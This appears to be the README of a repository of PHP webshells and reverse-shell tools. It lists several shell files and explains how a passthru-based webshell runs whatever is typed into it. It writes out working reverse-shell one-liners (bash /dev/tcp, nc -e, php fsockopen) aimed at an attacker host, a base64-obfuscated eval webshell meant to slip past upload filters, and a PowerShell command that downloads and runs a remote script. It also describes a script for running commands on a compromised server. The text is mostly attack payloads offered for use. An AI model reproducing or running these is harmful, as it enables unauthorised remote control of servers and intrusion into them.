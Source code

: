 <h3 align='center'><b>One-liner php reverse shell</b></h3>
 <pre><code>&lt;?php exec("/bin/bash -c 'bash -i >/dev/tcp/&lt;IP>/&lt;PORT> 0>&1'"); ?></code></pre>
<h3 align='center'><b> rev_shell.php </b></h3>
 <p>A simple python reverse shell
<h3 align='center'><b> shell_with_curl.php </b></h3> 
 <p>A simple webshell check by curl command to that file in victim url directory
<h3 align='center'><b> shell_with_param.php </b></h3> 
 <p>A simple webshell works by taking a parameter and executing it as a system command.
<h3 align='center'><b> webshell.php </b></h3>
 <p> In pseudocode, the above snippet is doing the following:
  <ol>
    <li> Checking if the parameter "commandString" is set
    <li> If it is, then the variable $command_string gets what was passed into the input field
    <li> The program then goes into a try block to execute the function passthru($command_string).  The docs on passthru() on <a href='https://www.php.net/manual/en/function.passthru.php'> PHP's website </a>, but in general, it is executing what gets entered into the input then passing the output directly back to the browser.
    <li>If the try does not succeed, output the error to page.  Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

<h3 align='center'><b> Reverse shell command </b></h3> 
   <pre><code>nc -e /bin/bash &lt;ATTACKER_IP> &lt;ATTACKER_PORT></code></pre>
   <pre><code>bash -i >& /dev/tcp/&lt;ATTACKER_IP>/&lt;ATTACKER_PORT> 0>&1</code></pre>
   <pre><code>php -r '$sock=fsockopen("&lt;ATTACKER_IP>",&lt;ATTACKER_PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'</code></pre>

<h3>Probably can bypass filters while upload, for example.</h3>
 <pre><code>&lt;?=eval(base64_decode('ZWNobyBzaGVsbF91eGVjKCRfR0VUWydjbWQnXS4nIDI+JjEnKTs='));?></code></pre>

<h3 align='center'><b>Commands for Windows Reverse Shell</b></h3>
 <pre><code>python3 -m http.server 80</code></pre>
 <pre><code>nc -lvnp 4444</code></pre>
 <pre><code>powershell -c "IEX(New-Object Net.WebClient).DownloadString(''http://&lt;ATTACKER_IP>/reverse.ps1'')"</code></pre>
<h3 align='center'><b>poc_executable.php</b></h3>
<p>This PHP script is a simple yet effective utility for situations where you need to execute system commands remotely on a compromised web server. It’s designed to handle specific scenarios where single-line scripts may fail due to various restrictions or server configurations.
